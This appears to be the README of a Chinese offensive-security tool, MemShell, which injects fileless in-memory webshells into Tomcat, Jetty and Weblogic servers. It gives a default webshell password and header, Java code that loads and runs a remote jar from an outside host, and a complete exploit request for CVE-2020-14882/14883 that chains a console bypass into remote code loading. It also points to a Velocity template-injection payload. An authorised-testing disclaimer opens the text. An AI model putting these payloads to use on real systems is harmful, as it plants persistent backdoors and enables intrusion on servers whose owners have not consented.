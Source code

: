 # MemShell
## 免责声明

本工具旨在帮助企业快速定位漏洞修复漏洞,仅限授权安全测试使用!
严格遵守《中华人民共和国网络安全法》,禁止未授权非法攻击站点!

## 使用场景

冰蝎默认密码`Crilwa`，添加请求头`D0g3:xxx`

1. 代码执行，例如可以调用`URLClassLoader`远程加载类，便可以无文件落地注入内存马。

   目前支持：

   - Tomcat6789回显，Tomcat6789冰蝎马
   - Jetty回显，Jetty冰蝎马
   - Weblogic冰蝎马

2. JavaAgent注入（需要文件落地，暂时只支持linux，目前没有实现冰蝎payload，只支持Tomcat回显）

### 核心代码

```java
java.net.URLClassLoader u = new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://192.168.220.1:8000/MemShell-1.0-SNAPSHOT.jar")});
u.loadClass("Inject.WeblogicInjectFilterShell").newInstance();
u.close();
```

事实上就是通过`URLClassLoader`进行远程类加载，优点是内存马代码编写方便，payload构造简单，缺点是不出网。

通过寻找通用组件的`defineClass`可以解决不出网的问题，比如 BCEL ，但是payload一方面是体积大，一方面是构造较为困难，这里不做深入。

目前支持的注入模块：

![image-20230317112252866](C:\Users\nsfocus\AppData\Roaming\Typora\typora-user-images\image-20230317112252866.png)

### CVE-2020-14882&CVE-2020-14883

例如下面的payload，可以进行代码执行，加载远程恶意代码。

```http
GET /console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.net.URLClassLoader u = new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("http://192.168.220.1:8000/MemShell-1.0-SNAPSHOT.jar")});u.loadClass("Inject.WeblogicInjectFilterShell").newInstance(); u.close();"); HTTP/1.1
```

![](images/B5RFR1$H]VU@5{(@)]8}30B.png)

![image-20230301151252935](images/image-20230301151252935.png)

### Velocity模板注入

通常使用Velocity模板注入都是进行反弹shell，代码构造比较复杂，不过理论上能够代码执行都可以写内存马，这边我写了Velocity模板注入的相关[payload](https://github.com/cri1wa/MemShell/blob/main/poc/velocity.vm)，可以供给参考。

本地搭建Jetty项目，使用Velocity模板注入注入Jetty内存马

![image-20230317120708186](images/image-20230317120708186.png)

![image-20230317152109671](images/image-20230317152109671.png)

